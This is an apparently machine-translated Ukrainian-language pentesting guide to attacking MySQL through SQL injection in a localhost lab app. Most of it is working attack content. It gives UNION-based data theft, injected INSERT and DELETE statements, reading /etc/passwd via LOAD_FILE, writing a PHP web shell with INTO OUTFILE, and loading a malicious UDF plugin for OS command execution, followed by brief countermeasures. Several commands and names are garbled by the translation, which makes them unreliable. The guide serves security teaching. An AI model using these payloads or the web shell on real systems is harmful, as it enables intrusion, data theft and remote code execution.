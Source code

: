 # MySQL Pentesting Techniques

<!-- @import "[TOC]" {cmd="toc" depthFrom=2 depthTo=6 orderedList=false} -->

<!-- code_chunk_output -->

- [Передумови] (#Передумови)
  - [Кроки](#Steps)
    - [Крок 1: Читання файлу за допомогою LOAD_FILE](#Крок-за-кроком)
  - [Контрзаходи](#Measures)
- [INTO OUTFILE - записати PHP-файл у RCE](#into-outfile-write-a-php-file-to-rce)
  - [Передумова](#Передумова-1)
  - [Кроки](#Кроки-1)
    - [Крок 1: Запишіть PHP-файл за допомогою `INTO OUTFILE`](#step-1-write-a-php-file-into-outfile-)
    - [Крок 2: Виконання команд ОС через PHP](#step-2-execute-os-commands-via-php)
  - [Контрзахід](#measure-1).
- [UDF - запис файлу плагіна до RCE](#udf-write-a-plugin-file-to-rce)
  - [Передумови](#Передумова-2)
  - [ідея](#idea)
  - [Кроки](#Кроки-2)
    - [Крок 1: Визначте директорію плагіна](#крок-1 - визначте директорію плагіна)
    - [Крок 2: Напишіть плагін](#крок-2 - написати плагін)
    - [Крок 3: Завантажте плагін і створіть UDF](#крок-3-Завантажте плагін і створіть udf)
    - [Крок 4: Виконання команд os через UDF](#крок-4-виконання команд os через udf)
  - [Вимірювання](#Вимірювання-2)


<!-- /code_chunk_output -->


## Normal request

```
http://localhost:8888/mysql.php?user=admin&pass=p4ssw0rd
```


## Query log

```
less +F ./log/mysql/query.log
```


## Basic SQL Injection

**UNION SELECT**

```
http://localhost:8888/mysql.php?user=&pass=' UNION SELECT 1, 2, 3;--+
```

```
http://localhost:8888/mysql.php?user=&pass=' UNION ALL SELECT id, username, password FROM users;--+
```


**INSERT та DELETE**

```
http://localhost:8888/mysql.php?user=&pass='; INSERT INTO users VALUES (1337, 'pwned', 'hello');--+
```

```
http://localhost:8888/mysql.php?user=&pass='; DELETE FROM users WHERE username='pwned';--+
```


## LOAD_FILE - Read file

### Обов'язкова умова.

- Якщо secure-file-priv вимкнено (за замовчуванням вимкнено до MySQL 5.7.5).


### Крок за кроком.

#### Крок 1: Читання файлу за допомогою LOAD_FILE

Функція `LOAD_FILE` може бути використана для читання вмісту файлу.

Зчитаний вміст може бути виведено як результат запиту з використанням оператора UNION SELECT.

```
http://localhost:8888/mysql.php?user=&pass=' UNION SELECT NULL,NULL,load_file('/etc/passwd');--+
```


> result:
>
> id=, username=, password=root:​x:0:0:root:/root:/bin/bash daemon:​x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:​x:2:2:bin:/bin:/usr/sbin/nologin sys:​x:3:3:sys:/dev:/usr/sbin/nologin sync:​x:4:65534:sync:/bin:/bin/sync games:​x:5:60:games:/usr/games:/usr/sbin/nologin man:​x:6:12:​man:/var/cache/man:/usr/sbin/nologin lp:​x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:​x:8:8:mail:/var/mail:/usr/sbin/nologin news:​x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:​x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:​x:13:13:proxy:/bin:/usr/sbin/nologin www-data:​x:33:33:www-data:/var/www:/usr/sbin/nologin backup:​x:34:34:backup:/var/backups:/usr/sbin/nologin list:​x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:​x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:​x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:​x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:​x:​100:65534::/nonexistent:/usr/sbin/nologin mysql:​x:999:999::/home/mysql:/bin/sh


### Контрзаходи.

- Заборонити читання файлів, включивши опцію secure-file-priv


## INTO OUTFILE - записати PHP-файл до RCE

### Необхідна умова.

- Якщо MySQL має доступ до публічного каталогу PHP
- Якщо опція secure-file-priv вимкнена (вимкнена за замовчуванням до MySQL 5.7.5)


### Кроки.

#### Крок 1: Запишіть PHP-файл за допомогою `INTO OUTFILE`.

Використовуйте `INTO OUTFILE`, щоб записати PHP-код для запуску в WebShell у вигляді PHP-файлу.

```php
<?php $param=$_GET[«cmd»]; echo shell_exec($param);.
```

```
http://localhost:8888/mysql.php?user=&pass=' UNION SELECT NULL,NULL,'<?php $param=$_GET["cmd"]; echo shell_exec($param);' INTO OUTFILE '/var/www/html/poc.php
```

#### Крок 2: Виконання команд ОС за допомогою PHP

Якщо ви успішно записали файл, ви можете використовувати наступну URL-адресу для виконання будь-якої команди.

```
❯ curl 'http://localhost:8888/poc.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### Рішення.

- Розділіть конфігурацію MySQL і веб-сервера.
- Увімкніть опцію secure-file-priv для заборони запису файлів.


## UDF - Записати файл плагіна в RCE

### Обов'язкова умова.

- Якщо ваша конфігурація дозволяє виконання операторів подвійного запису
- Якщо каталог плагіна доступний для запису процесам MySQL.


### Ідея.

- MySQL дозволяє писати плагіни на C і реалізовувати власні SQL-функції (UDF).
- Звичайно, в межах мови C можна виконувати довільний код, тому можна створювати UDF, які виконують команди ОС
  - Приклад. https://www.exploit-db.com/exploits/1518
- Якщо MySQL має доступ на запис до каталогу плагінів, довільний код можна виконати, написавши двійковий файл, що містить UDF, і завантаживши його як плагін.
- Попередньо скомпільовані UDF для виконання команд операційної системи також можна знайти у всьому світі.
  - Приклад. Приклад: https://www.exploit-db.com/exploits/46249
- Для MySQL бінарний файл потрібно розмістити в каталозі для плагіна

### Крок за кроком.

#### Крок 1: Визначте каталог плагіна

Дізнайтеся, куди записати бінарний файл.

```
http://localhost:8888/mysql.php?user=&pass=' UNION SELECT @@@plugin_dir,'','';--+
```

> result:.
>
> id=/usr/lib/mysql/plugin/, username=, password=


#### Крок 2: Напишіть плагін

Значення `hellcode_x64` в [існуючому коді експлойта](https://www.exploit-db.com/exploits/46249) є скомпільованими двійковими даними. У наступній процедурі використовується це значення.

Замініть частину коментаря в наступній команді бінарними даними.

Відправте POST-запит, оскільки GET-запит не може бути виконаний через обмеження на довжину URI. Якщо ви можете використовувати тільки GET-запити, ви можете обійти це обмеження, розбивши двійковий файл, зберігши його в БД і об'єднавши пізніше.

```
curl http://localhost:8888/mysql.php \
  -d 'user='; S`` curl
  -d 'pass='; SELECT BINARY /*Вставте тут двійкові дані у вигляді чисел (наприклад. 0x41424344)*/ у файл дампа '/usr/lib/mysql/plugin/mysql_udfsys.so';--+»
```

#### Крок 3: Завантажте плагін і створіть UDF

Функція символу `ys_exec` у бінарному файлі може бути виконана як UDF.

```
http://localhost:8888/mysql.php?user=&pass='; CREATE FUNCTION sys_exec RETURNS int SONAME 'mysql_udfsys.so';--+
```


#### Крок 4: Виконання команд ОС через UDF

Оскільки результат виконання команди невідомий, запишіть його у файл, щоб підтвердити успішність виконання команди.

```
http://localhost:8888/mysql.php?user=&pass=' UNION SELECT sys_exec('echo PWNED! > /var/www/html/udf_poc'), '', '';--+
```

```
❯ curl http://localhost:8888/udf_poc
PWNED!
```


### Виправлення.

- Увімкніть опцію заборони виконання подвійних інструкцій або використання sqli тощо.
- Зменшіть привілеї процесу MySQL до мінімально необхідних.
- Увімкніть опцію secure-file-priv для заборони запису файлів.